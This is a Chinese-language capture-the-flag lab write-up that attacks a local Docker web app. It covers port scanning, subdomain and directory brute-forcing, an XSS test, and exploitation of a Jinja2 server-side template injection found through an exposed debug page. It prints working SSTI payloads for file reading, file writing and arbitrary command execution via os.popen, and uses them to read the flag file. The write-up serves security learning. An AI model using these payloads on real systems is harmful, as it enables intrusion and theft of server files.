[toc]

# Break_it --- flag 寻找过程

## 实验环境

- 主机：win10

- 虚拟机：kali 2021.4
  
  > 本文中，实验环境运行于虚拟机上，攻击与测试行动也在虚拟机上进行。

- 实验准备：拉取 `docker-compose.yml` 文件后执行 `docker-compose up` 
  
  ```docker
  # docker-compose.yml
  version: "3.9"  # optional since v1.27.0
  services:
    web:
      # build: ./
      container_name: microbo
      image: akairo/microbo:dev
      ports:
        - "11451:5000"
  ```

## 漏洞寻找

### Nmap端口扫描

拿到靶机环境 `http://127.0.0.1:11451/` , 确认环境正常，进入login登录界面。首先用 nmap 做端口扫描确认是否有隐藏端口存在。

```bash
sudo nmap -n -PN -sT -sU -p- 127.0.0.1
```



就扫描结果来看，只有一个5000端口正在工作，端口方向的攻击可以暂且告一段落，到其他地方做文章。

### 检查网页源码

从浏览器输入进入页面 `http://127.0.0.1:11451/` , 默认页面是 `http://127.0.0.1:11451/login?next=%2F` , 也是注册页面。首先 f12 查看网页源码是否有隐藏 flag 文件，简单检查后没有发现隐藏的未显示文件，搜索 `flag` 、 `password` 或 `goal` 等关键词查找后也无果，看来并不是简单的躲猫猫。



但是图中出现两次的 `index.js` 从侧面提醒我，或许有隐藏的域名跳转路径或者目录文件，类似 `juice shop` 的计分板题目，这让我想到可以来一次子域名爆破和隐藏页面检索，或许会有收获。

### 子域名爆破尝试

首先我们来试着**子域名爆破**。这里会使用到一个工具 `ksubdomain` ，linux 版本[下载地址点我](https://github.com/knownsec/ksubdomain/releases/download/v0.7/ksubdomain_linux.zip)，工具的 github 介绍地址[点击这里](https://github.com/knownsec/ksubdomain)。

1. 注意在 linux 上使用的话还需要安装 `libpcap-dev` , 用 `apt install libpcap-dev` 即可。
   
   下载后解压缩，进入文件夹中，打开终端，用 `sudo chmod 777 ksubdomain` 赋予执行权限，再使用 `sudo ./ksubdomain -test` 测试是否正常运行，如果正常应该会反馈本地最大发包数，如下图所示。
   
   

2. 测试无误之后，就可以使用命令 `sudo ./ksubdomain -d 127.0.0.1:11451 -b 10m -filter-wild -o ip.txt` 爆破域名，`-b 10m` 指的是宽带的下行速度，换句话说，可以依据我们测试时反馈的最大发包数酌情增加（默认是1m）， `-filter-wild -o ip.txt` 指的是自动分析并将结果写入 ip.txt 中，爆破需要花一段时间。
   
   
   
   但是吧，工具内置的字典跑了大概1小时，爆破了160w+的子域名，一个成功的都没有，所以我们基本可以排除子域名隐藏，将重心转移到隐藏文件的寻找上。

### 目录扫描

接着我们来试着**目录扫描**， kali 自带有工具 `dirbuster` 

1. 使用命令 `dirb http://127.0.0.1:11451/` , 我们可以得到结果如下图：
   
   
   
   简单分析一下：返回值为 200 的 `console` 、`favicon.ico` 、`sign-up` 和默认页面 `login` 都是可以正常访问的页面，分别是控制台、网页图标、登录和注册页面，没有特别的东西；返回值为 302 的几个页面，像是 `logout` , 一看就知道需要登陆后才能够访问，所以我们如果尝试直接访问的话服务器就会将我们重定向到 `login` 页面。

2. 这一串目录里，唯独一个 `index` 页面的返回值是 308 ，这就让人有些奇怪，因为 308 表示当前请求的资源已经永久的转移到其他的 URI 了，说明这很有可能这是一个服务器配置错误。我们不妨登进去看一看。
   
   
   
   `index` 页面居然是调试器捕捉的问题回溯页面，换句话说服务器自带的 debugger 抓到了不少毛病，然后全部放到这个页面，还附带例子，以此方便开发者回溯、复现问题。它甚至还将重要的问题高亮显示了，可以看到服务器存在 SSTI 型漏洞，也就是服务器端模板注入漏洞。这个漏洞指的是我们可以让服务端接收了构造的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，就一同执行了我们插入的恶意语句。

3. 用这个页面举的例子，我们现在就可以在地址栏输入 `http://127.0.0.1:5000/index/?content=<script>alert(/xss/)</script>` 命令来完成简单的 xss 注入。
   
   
   
   
   
   既然线索这么明确，那么本次寻找 flag 的方向也就很明确了：**利用 SSTI 漏洞构建恶意命令，试着找到藏起来的 flag 。**

### 寻找 flag

在构建恶意命令前，我们先了解一些SSTI漏洞的尝试和利用形式，以方便我们之后的步骤。

- Jinjia模板特点
  
      {{...}}: 装载一个变量，模板渲染时，会使用传进来的同名参数变量的代表值替换
      : 装载一个控制语句
      {#...#}: 装载一个注释，模板渲染的时候会忽视这中间的值

- Jinja2中for循环的内置常量
  
  | 常量          | 说明                            |
  | ----------- | ----------------------------- |
  | loop.index  | 当前迭代的索引（从0开始）                 |
  | loop.first  | 是否是第一次迭代，返回`true` or `false`  |
  | loop.last   | 是否是最后一次迭代，返回`true` or `false` |
  | loop.length | 序列的长度                         |

- 由于在jinja2中是可以直接访问python的一些对象及其方法的，所以我们可以通过构造继承链来执行一些操作，比如文件读取，命令执行等
  
  | 魔术方法             | 说明                                   |
  | ---------------- | ------------------------------------ |
  | `__dict__`       | 保存类实例或对象实例的属性变量键值对字典                 |
  | `__class__`      | 返回调用的参数类型                            |
  | `__mro__`        | 返回一个包含对象所继承的基类元素，方法在解析时按照元组的顺序解析     |
  | `__base__`       | 返回该对象所继承的基类                          |
  | `__subclasses__` | 返回object的子类                          |
  | `__init__`       | 类的初始化方法                              |
  | `__globals__`    | 函数会以字典类型放回当前位置的全部全局变量与func_globals等价 |
  | `__bases__`      | 返回该对象所继承的类型列表                        |

- 一些常用的payload
  
      //获取基本类
      ''.__class__.__mro__[1]
      {}.__class__.__bases__[0]
      ().__class__.__bases__[0]
      [].__class__.__bases__[0]
      object
      
      //读文件
      ().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
      object.__subclasses__()[40](r'C:\1.php').read()
      
      //写文件
      ().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
      object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')
      
      //执行任意命令
      ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
      object.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

1. 有了上面的基础知识铺垫，我们现在就可以试着利用漏洞构建一个查找命令了，并且只要将命令拼接在 url 之后，服务器就会误认其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行构建的检查代码。
   
   ```
   # 以下代码直接粘贴进浏览器地址栏中即可
   # 返回当前 index 目录下的文件列表
   http://127.0.0.1:11451/index/?content=     {{ b['eval']('__import__("os").popen("ls").read()') }}    
   
   # 全盘查找 'flag'
   http://127.0.0.1:11451/index/?content=     {{ b['eval']('__import__("os").popen("find / -name flag").read()') }}    
   ```
   
   结果如下图，说明在当前目录下就有一个叫 `flag` 的文件夹。
   
   
   
   我们进一步来看看这个文件夹下有什么东西：
   
   ```
   # 显示 /flag 中的文件
   http://127.0.0.1:11451/index/?content=     {{ b['eval']('__import__("os").popen("ls /flag").read()') }}    
   ```
   
   

2. 结果很明显了， flag 就藏在这个位置，构建命令打开文件 `flag.txt` ：
   
   ```
   http://127.0.0.1:11451/index/?content=     {{ b['eval']('__import__("os").popen("cat /flag/flag.txt").read()') }}    
   ```
   
   
   
   找到 flag 为 `flag{flag_test}` , break it 环节到此结束。

> 注：exp 代码运行结果：
> 
> 

## 参考链接

[如何使用 Nmap 扫描开放端口](https://www.gingerdoc.com/tutorials/how-to-use-nmap-to-scan-for-open-ports)

[HTTP-308_星空黑夜的博客-CSDN博客_308错误](https://blog.csdn.net/xingjia001/article/details/103803016)

[GitHub - knownsec/ksubdomain: 无状态子域名爆破工具](https://github.com/knownsec/ksubdomain)

[Dirbuster](https://www.kali.org/tools/dirbuster/)

[SSTI（模板注入）漏洞（入门篇） - bmjoker - 博客园](https://www.cnblogs.com/bmjoker/p/13508538.html)

[Python模板注入(SSTI)基础](https://bbs.pediy.com/thread-269544.htm)
